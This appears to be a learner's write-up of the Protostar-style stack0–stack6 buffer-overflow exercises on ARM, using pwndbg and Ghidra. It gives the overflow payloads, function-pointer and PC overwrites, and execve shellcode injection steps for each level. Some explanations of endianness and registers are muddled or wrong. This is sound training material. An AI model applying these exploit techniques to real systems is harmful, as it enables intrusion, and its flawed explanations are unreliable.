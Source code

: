Remember the disassembly is only half of it
The insturctions on the disassembly does operations on the STACK & registers





[Little Endian]: ""
 + When given a string the characters will be in order from smaller byte to bigger
 String: abcd
 Addresses:          0   1   2   3   4
 Chars of String:    a   b   c   d   e

 + Bytes are in the opposite order
 Byte Value: 0x123456
 Addresses:	         0    1    2  
 Bytes:              56   34   12

[R15(PC)]: Has_address_that_holds_the_address_for_the_next_method

[R11(FP)]: Has_the_address_for_the_BOTTOM_of_the_stack
 - This address should be bigger than R13(SP)

[R13(SP)]: Has_the_address_for_the_TOP_of_the_stack
 - This address should be smaller than R11(FP)





# STACK CHALLENGES (used pwndbg & ghidra)





### stack0: Simple Overflow ------------------------------------------------------------------------
	1. $ gdb stack0
	2. > b main
	3. > run
	4. > n 5  			;do this until you enter the gets
	5. $ python -c "print 'c' * 65"
	6. > {enter the ouput of the above command}
	7. > c



### stack1: Little Endian Lesson -------------------------------------------------------------------
	$ ./stack1 $(python -c "print('c' * 64 + '\x64\x63\x62\x61')")
		 OR
	$ ./stack1 $(python -c "print('c'*64 + 'dcba')")
	The 'dcba' is what you're looking for

	In ghidra you see:
	```
	    char acStack76 [64];
          [...]
	    if (local_c) == 0x61626364 { ''
	```

	Printing 64 'c's fill the buffer. Afterwards you overflow the next variable
	
	0x61626364 is abcd
	My input is taken as is:
	 + the first character is at the smaller address
	 + the last variable is at the largest
	However, the processor will read the overflow chunk "dcba" backwards
	So, I have to give 'dcba' so the processor reads it as 'abcd'


	
### stack2: ----------------------------------------------------------------------------------------
	$ export a=$(python -c "print('c' * 64)")
	$ export b=$(printf '\x0a\x0d\x0a\x0d')   #this will be read backwards as d, a, 0d, 0a
	                                          #the 0 in \x0d will be cut off since we're going backwards,
	                                          #but remember each byte is in order 
	                                          #(so 0xab will be ab, but 0xabcd will be 0xcdab)
	                                          #in this case we're doing this:
	                                          #  0xabcd   ->  dab   ; c is getting cut off since it's the first hex
	                                                                  digit to appear in this
	export GREENIE=$a$b
	./stack2

	In ghidra you see:
	```
		char acStack80 [64];           //the buffer we're gonna overflow by making GREENIE TOO BIG
		int local_10;				   //overflowing this to 0xd0a0d0a
		  [...]
		local_c=getenv("GREENIE");     //this will grab the variable name GREENIE
		  [...]
		 local_10=0;
		 strcpy(acStack80,local_c);   //Takes GREENIE variable and stores it in acStack80
		 if(local_10 == 0xd0a0d0a) {  //This is the vlaue we need local_10 to be
		 							  /
	```




### stack3: Overwrite Funciton Pointer ---------------------------------------------------------------
	$ objdump -d stack3 | grep win
	   0001047c   <-- the address of the win function

	$ a=$(python -c "print('c' * 68)")		;should take you right before the frame pointer(r11)
	$ b=$(printf '\x7c\x04\x01')			;should overwrite the frame pointer(r11)
						    ^this 0 in \x01 will be cut off

    + As before, the stack is of size 64 
    + The value of the function pointer was right below it, so we overwrite that to the win function





### stack4: Overwrite PC register (EIP in x86) -----------------------------------------------------------
    We're targeting the pc register
     1. pop {r11, pc} ; pc is r15
        + The lower number register will be at a lower address (higher up the stack)
        + The bigger number register will be at a higher address (lower in the stack)
        + pc(r15) will get the lower value in stack
        + look where stack is pointing
           pwndbg> telescope $sp
              00:0000│ sp   0x7efff4b0 ◂— 0x61616161 ('aaaa')
              01:0004│      0x7efff4b4 —▸ 0x1044c (win) ◂— 0xe92d4800
        + I'm looking at 0x7efff4b4 since it's the second highest on the stack to go to pc

	$ a=$(python -c "print('c' * 68)")
	$ b=$(printf '\x4c\x04\x01')
			OR
	  b=$(python -c "print '\x4c\x04\x01'")
	$ echo $a$b > arg
	$ gdb stack4
	> break main
	> r < arg
	> ni      ; do this until you see you're going into the win function



### stack5: Standard Overflow ----------------------------------------------------------------------------

Write some shell code (execve3.s)

	Turn into binary
	$ as execve3.s -o execve3.o && ld -N execve3.o -o execve3

	Testing binary
	 ./execve3
	 $ whoami
	 pi

	Turn binary to hex:
	  $ objcopy -O binary execve3 execve3.bin
      $ hexdump -v -e '"\\""x" 1/1 "%02x" ""' execve3.bin 
           OR
      ```
        #!/usr/bin/env python
		import sys
		binary = open(sys.argv[1],'rb')
		for byte in binary.read():
		  sys.stdout.write("\\x"+byte.encode("hex"))
	 	print ""
      ```
      $ ./shellcode.py execve3.bin


	Payload
	 $ a=$(python -c "print('\x90' * 68)") 	 ; The offeset before overwriting pc
	 $ b=$(printf '\xa8\xf4\xff\x7e')  		 ; The target address (0x7efff4a8) we 
	 										 ;  want to redirect to
			OR
	   b=$(python -c "print '\xa8\xf4\xff\x7e'")
	 $ c=$(python -c "print('<output-from-hexdump>')")	; THE SHELL CODE
	 $ echo $a$b$c > arg
	 $ cat arg | ./stack5




### stack6: Code Flow ---------------------------------------------------------------------------------
	$ python -c "print 'a' * 76 + '\xa4\xf4\xff\x7e' + '\x24\x05\x01'" | ./stack6
	
[Explanation]: _
	+ 76 byte offset till the $fp (r12) part of the stack that will be popped into $fp (r11)
	+ The $fp is 0x7efff4a4
	    - Little Endian reads backwards so -> '\xa4\xf4\xff\x7e'
		- We want the $fp to be the same as the $fp during getpath method
		- Cause we're redirecting code flow to the if statment that never gets executed
		  (used ghidra to catch the if statement that uses the `bne` instruction)
    + The $pc is 0x10524
    	- Little Endian reads backwards so -> '\x24\x05\x01'
        - We this address gets popped off the stack, it is put into $pc
        - Points to the contents of the if statment that is never entered
        - Should see the output:
           (bzzzt (0x10578)
        - The hex value is the address of the integer that is used in the if statement checkss

    In ghidra you'll see for the getpath method:
    ```
     void getpath(void)
     {
     	uint in_lr;
     	char acStack84 [72]:   //<------THE STACK TO OVERFLOW
     	printf("input path please:");
     	fflush(stdout);
     	gets(acStack84);
     	if ((in_lr & 0xbf000000) == 0xbf000000) {
     		printf("bzzzt (%p)\n", in_lr);  //<-------UNREACHABLE PART OF IF STATEMENT WITHOUT
     		                                       // CHAGING CODE FLOW
     		_exit(1);
     	}
     	printf("get path %s\n", acStack84);
     	return;
     }
    ```

